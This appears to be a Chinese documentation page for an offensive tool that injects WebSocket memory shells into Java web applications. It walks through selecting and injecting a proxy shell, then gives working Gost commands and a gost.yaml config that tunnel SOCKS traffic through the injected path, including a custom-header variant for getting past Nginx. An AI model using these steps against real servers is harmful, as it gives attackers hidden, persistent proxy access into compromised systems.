


import { Step, Steps } from 'fumadocs-ui/components/steps';

参考地址：https://github.com/veo/wsMemShell/blob/main/static/websocketproxy.md

## WebSocket 内存马

<Steps>
<Step>
### 选择 Proxy


</Step>

<Step>
### 生成并注入

选取合适的打包方式，并进行内存马的注入。

</Step>
<Step>
### 使用 Gost 客户端尝试启动代理

https://github.com/go-gost/gost

```bash
❯ ./gost -L :1080 -F "ws://127.0.0.1:8082?path=/app/proxy"
{"handler":"auto","kind":"service","level":"info","listener":"tcp","msg":"listening on [::]:1080/tcp","service":"service-0","time":"2026-01-16T23:15:55.143+08:00"}
```

尝试使用 curl 命令使用代理访问百度

```bash
> curl -x socks5h://127.0.0.1:1080 https://www.baidu.com
```
</Step>
</Steps>

## BypassNginxWebSocket 内存马

<Steps>
<Step>
### 选择 Proxy 并填写参数


</Step>

<Step>
### 生成并注入

选取合适的打包方式，并进行内存马的注入。

</Step>
<Step>
### 使用 Gost 客户端尝试启动代理

https://github.com/go-gost/gost

由于 Gost 自定义请求头只能通过配置文件实现，因此创建一个 `gost.yaml`

```yaml
services:
  - name: service-0
    addr: :1080
    handler:
      type: auto
    listener:
      type: tcp
    chain: chain-0

chains:
  - name: chain-0
    hops:
      - name: hop-ws
        nodes:
          - name: ws-tunnel
            addr: 127.0.0.1:80 # 此处填写目标地址，我是用 Nginx 反代所以是 80 端口
            connector:
              type: http
            dialer:
              type: ws
            metadata:
              path: /app/bypass-proxy # 此处填写 WebSocket 路径
              header:
                User-Agent: "test" # 此处填写自定义请求头
```

```bash
❯ ./gost -C gost.yaml
{"handler":"auto","kind":"service","level":"info","listener":"tcp","msg":"listening on [::]:1080/tcp","service":"service-0","time":"2026-01-16T23:30:04.927+08:00"}
```

尝试使用 curl 命令使用代理访问百度

```bash
> curl -x socks5h://127.0.0.1:1080 https://www.baidu.com
```
</Step>
</Steps>